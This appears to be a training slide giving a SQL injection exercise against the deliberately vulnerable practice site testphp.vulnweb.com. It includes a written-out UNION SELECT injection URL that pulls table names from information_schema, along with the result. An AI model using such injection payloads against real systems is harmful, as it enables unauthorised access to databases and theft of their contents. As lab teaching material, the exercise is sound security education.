

# Assignment#14
Visit http://testphp.vulnweb.com/artists.php?artist=1
Can you find out the table name
[hint: try union statement & select statement]

http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1
From the screenshot you read can the name of the first table is artists